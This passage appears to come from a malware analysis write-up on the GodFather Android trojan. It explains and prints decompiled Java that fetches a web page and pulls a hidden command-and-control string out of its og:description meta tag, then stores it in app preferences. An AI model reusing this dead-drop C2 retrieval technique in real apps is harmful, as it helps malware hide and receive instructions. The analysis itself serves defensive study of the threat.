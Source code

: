 
This function creates an OkHttpClient.Builder. 
It configures the timeouts for connect, write, read, and total call to 50 seconds each.
Convert the response body to a string using a regex to search for a specific meta tag with property=”og:description” and capture the contents of the tag.
For each occurrence found by the regex, call the Sandrakottos method to save the content in the SharedPreferences under the key “min”.


![Figure 17 - SharedPreference Reference](/assets/images/2024-12-09-godfather-android-analysis/img17.png) 
Which, in fact, turns out to be the C2 string analyzed earlier.


```java

public static void spellican(String url, Context context) throws IOException {
        OkHttpClient.Builder builder = new OkHttpClient.Builder();
        TimeUnit timeUnit = TimeUnit.SECONDS;
        OkHttpClient client = builder.connectTimeout(50L, timeUnit).writeTimeout(50L, timeUnit).readTimeout(50L, timeUnit).callTimeout(50L, timeUnit).build();
        Request request = new Request.Builder().url(url).addHeader(("User-Agent"), ("Mozilla/5.0 (Linux; Android 10; SM-J610F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.88 Safari/537.36")).build();
        try {
            Response response = client.newCall(request).execute();
            if (!response.isSuccessful()) {
                throw new IOException(("Unexpected code") + response);
            }
            String tele = response.body().string();
            Pattern pattern = Pattern.compile(('<meta property=\"og:description\" content=\"(.*?)\">'), 32);
            Matcher matcher = pattern.matcher(tele);
            while (matcher.find()) {
                Sandrakottos(context, ("min"), matcher.group(1));
            }
            response.close();
        } catch (IOException e) {
            e.printStackTrace();
        }
    }


```

#### Rarefeatured

![Figure 18 - Rarefeatured Class](/assets/images/2024-12-09-godfather-android-analysis/img18.png) 
